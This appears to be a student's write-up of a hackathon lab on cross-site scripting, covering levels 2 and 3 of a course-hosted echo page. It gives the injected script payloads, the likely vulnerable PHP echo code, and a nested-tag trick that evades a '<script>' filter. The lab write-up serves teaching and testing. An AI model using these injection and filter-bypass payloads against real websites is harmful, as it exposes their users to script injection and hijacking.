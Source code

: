 Level 2

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php](URL : http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php)

This URL is associated with an HTML form rather than engaging with user inputs or path variables within the HTTP request. Through this form, it becomes possible to directly insert attacking scripts. This approach facilitates the injection of malicious code into the web application, thereby enabling the examination of XSS vulnerabilities.

```
input=<script>alert('Level 2 - Hacked by Vikhyath Reddy Bheemreddy')</script>
```
Possible Code:
```
	if(!isset($_POST['input']))
	{
		die("{\"error\": \"Please provide 'input' field in an HTTP POST Request\"}");
	}
	echo $_POST['input'];
```

![Level 2 ](images/level2.png)

Level 3

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php](URL : http://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php)

In order to successfully attack the URL and evade the filtering of `<script>` tags sent through input variables directly, the attacking code needs to be fragmented and then reassembled. This approach showcases the persistence and ingenuity necessary in XSS attacks, as it allows for the injection of malicious code capable of triggering alerts on specific web pages.

```
input=<scr<sc<script>ript>ipt>alert('Level 3 - Hacked by Vikhyath Reddy Bheemreddy')</scr</sc</script>>>
```
